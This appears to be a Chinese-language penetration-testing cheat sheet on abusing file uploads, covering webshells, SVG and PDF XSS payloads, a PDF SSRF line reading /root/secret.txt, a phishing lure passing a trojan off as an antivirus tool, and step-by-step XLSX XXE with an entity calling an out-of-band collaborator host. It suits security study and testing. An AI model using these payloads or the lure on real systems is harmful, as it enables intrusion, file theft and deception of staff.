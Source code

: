 waf、rasp 对上传文件的检测方法有这几种
- 后缀检测(黑白名单)
- 文件内容检测
- Content-Type 检测
- 后端二次渲染(图片裁剪、图片水印)

---

## 利用方式

### 网站脚本文件

如 asp、aspx、jsp、php 后缀的网站脚本文件，通过访问上传的 webshell 执行系统命令，获取服务器权限。

### 可造成 XSS 或跳转的钓鱼文件

- html
- svg
    ```html
    <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
    ```
- pdf
    xss
    ```
    app.alert('XSS');
    ```

    ssrf
    ```
    <link rel=attachment href="file:///root/secret.txt">
    ```
- xml

### 服务器可执行文件(PE、sh)

配合社工手段,例如 : 最近办公内网发现大量勒索病毒,信息科紧急部署了新版杀毒引擎,请各部门人员立即下载,下载地址: www.xxx.com/upload/木马查杀工具.exe

### mp4、avi

配合 ffmpeg 漏洞

### shtml

ssi 注入

### xlsx

XXE

1. 创建一个 xlsx 文档，更改后缀为 zip，解压。
2. 打开 Burp Suite Professional，单击 Burp 菜单并选择 “Burp Collaborator client” 将其打开, 复制到粘贴板。
3. 找到 Content_Types.xml 文件，插入 xxe 代码到文件中。
    ```xml
    <!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://xxx.burpcollaborator.net"> ]>
    <x>&xxe;</x>
    ```
4. 重新压缩为 zip 文件，更改后缀为 xlsx。上传 xlsx 文档到目标服务器，如果没有禁用外部实体，就会存在 XXE 漏洞，burp 接收到请求。
